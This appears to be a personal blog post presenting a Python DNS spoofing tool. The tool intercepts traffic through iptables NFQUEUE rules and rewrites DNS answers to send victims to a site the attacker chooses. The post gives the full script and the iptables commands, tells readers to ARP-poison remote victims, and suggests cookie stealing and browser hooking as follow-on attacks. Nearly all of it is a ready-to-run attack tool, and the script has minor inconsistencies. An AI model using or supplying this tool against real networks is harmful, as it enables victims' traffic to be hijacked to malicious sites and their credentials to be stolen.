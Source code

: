 ```yaml
---
title: DNS Spoofer
date: 2021-06-28 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Poison DNS responses.
---
```


<p align="center">
 <img src="https://external-preview.redd.it/SRVKUe2MGSCBVB56FwBzwFZE6uxGaNZ_Vknx5vioVAw.png?auto=webp&s=b21e5b8bde6eed10e5ef54a188ebf0840e0bf8b4">
</p>



## This is a python script that poisons all DNS responses flowing though the host machine to successfully spoof a target site and redirect the victim to a malicious site of chosing.

- We use `IPTABLES` to build a **queue** to intercept traffic. Based on INPUT(inboud traffic),OUTPUT(outbound traffic) and FORWARD(traffic from remote hosts).
The program automatically runs these commands, if it dosen't work for some reason, run the following commands to build a queue alongside when running the program -
    > `iptables -I INPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for inbound traffic
    
    > `iptables -I OUTPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for outbound traffic
    
    > `iptables --flush` --> flush rules after completion
- We filter the traffic like an intercepting proxy would to filter and modify DNS responses for the target site to redirect the victim to a malicious site of the attackers choosing. Many avenues of attacks can be performed like browser hooking, cookie stealing etc.
- To spoof a remote victim replace the 2nd iptables command, ARP Poison the victim to redirect all DNS traffic through our host machine and proceed as above:
    > `iptables -I FORWARD -j NFQUEUE --queue-num 0` -->  Intercept Queue for inbound traffic

### CODE:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect DNS requests to this Site/Host")
    parser.add_argument("-s", "--site", dest="site", help="Target Site to DNS Spoof")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid Host,  use --help for info.")
    if not options.site:
        # code to handle error
        parser.error("\n[-] Please specify a valid site to spoof,  use --help for info.")
    return options

# Use get_payload() method to view fields for netfilterqueue objects
def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # DNSQR - DNS request / DNSRR - DNS request
    if scapy_packet.haslayer(scapy.DNSRR):
        # Filter Question Record for site name
        qname = scapy_packet[scapy.DNSQR].qname
        if options.site in qname:
            print("[+] Spoofing target: " + options.site)
            # Create DNS response
            answer = scapy.DNSRR(rrname=qname, rdata=options.host)
            scapy_packet[scapy.DNS].an = answer
            # Setting no of DNS responses
            scapy_packet[scapy.DNS].ancount = 1
            # Remove these fields and let Scapy recalculate them automatically
            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len
            # Copying modified attributes to the original packet
            packet.set_payload(str(scapy_packet))
    # Forward packet to target
    packet.accept()

def iptables_set(queue_num):
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "-I", "INPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    subprocess.call(["sudo", "iptables", "-I", "OUTPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    print("[!] IPTABLE rules set succesfully! \n")

def iptables_reset():
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "--flush"])
    print("[!] IPTABLE rules reset succesfully! \n")


print("""
___  _  _ ____    ____ ___  ____ ____ ____ ____ ____ 
|  \ |\ | [__     [__  |__] |  | |  | |___ |___ |__/ 
|__/ | \| ___]    ___] |    |__| |__| |    |___ |  \ 
                                                                                                                                                                                           
      """)

try:
    options = get_arguments()
    print("[-] [NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    queue_num = input("[!] Setup IPTABLES rules with a queue number.\n - Enter a queue number: ")
    print("\n\n******************************************************************************************")
    print("[+] Spoofing all DNS traffic flowing through this machine using configured IPTABLE queues.")
    print("******************************************************************************************\n\n")
    # Creating instance of netfilterqueue obj
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(queue_num, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n")
    iptables_reset()
```

### OUTPUT:

__Attacker:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/arpspoof1.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof1.png)

__Victim:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof2.png)

